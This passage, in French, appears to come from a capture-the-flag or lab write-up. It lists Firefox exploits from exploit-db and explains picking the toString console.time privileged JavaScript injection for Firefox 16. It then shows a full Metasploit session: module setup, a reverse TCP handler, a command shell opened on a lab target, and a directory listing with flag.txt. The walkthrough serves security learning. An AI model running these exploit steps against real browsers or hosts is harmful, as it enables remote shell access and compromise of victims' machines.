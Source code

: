 ~~~bash
Mozilla Firefox - Simplified Memory Corruption (PoC)                                      | https://www.exploit-db.com/exploits/15342
Mozilla Firefox - WebIDL Privileged JavaScript Injection (Metasploit)                     | https://www.exploit-db.com/exploits/34448
Mozilla Firefox - XMLSerializer Use-After-Free (Metasploit)                               | https://www.exploit-db.com/exploits/27940
Mozilla Firefox - location.QueryInterface() Code Execution (Metasploit)                   | https://www.exploit-db.com/exploits/16301
Mozilla Firefox - onreadystatechange Event DocumentViewerImpl Use-After-Free (Metasploit) | https://www.exploit-db.com/exploits/27429
Mozilla Firefox - toString console.time Privileged JavaScript Injection (Metasploit)      | https://www.exploit-db.com/exploits/34363
Mozilla Firefox - view-source:JavaScript url Code Execution                               | https://www.exploit-db.com/exploits/1007
~~~

Après avoir fait un premier tri des versions de Firefox différentes de 16, j'ai ouvert chacun des liens affichés et cherché la version exacte compatible avec la version de Firefox. 

L'exploit compatible est le suivant : `Mozilla Firefox - toString console.time Privileged JavaScript Injection (Metasploit)`.

Cet exploit est disponible uniquement dans `Metasploit` :

~~~bash
msf5 > use exploit/multi/browser/firefox_tostring_console_injection
msf5 exploit(multi/browser/firefox_tostring_console_injection) > set srvport 8080
srvport => 8080
msf5 exploit(multi/browser/firefox_tostring_console_injection) > run             
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.122.26:4444 
[*] Using URL: http://0.0.0.0:8080/WYxStnrboh4
[*] Local IP: http://192.168.122.26:8080/WYxStnrboh4
[*] Server started.

msf5 exploit(multi/browser/firefox_tostring_console_injection) > 
[*] 192.168.122.131  firefox_tostring_console_injection - Gathering target information for 192.168.122.131
[*] 192.168.122.131  firefox_tostring_console_injection - Sending HTML response to 192.168.122.131
[*] Command shell session 1 opened (192.168.122.26:4444 -> 192.168.122.131:35454) at 2019-08-26 22:09:03 +0200

msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  1         shell firefox/firefox               192.168.122.26:4444 -> 192.168.122.131:35454 (192.168.122.131)
msf5 exploit(multi/browser/firefox_tostring_console_injection) > sessions 1
[*] Starting interaction with 1...

ls 
browse.sh
Desktop
Documents
Downloads
examples.desktop
flag.txt
Music
Pictures
~~~
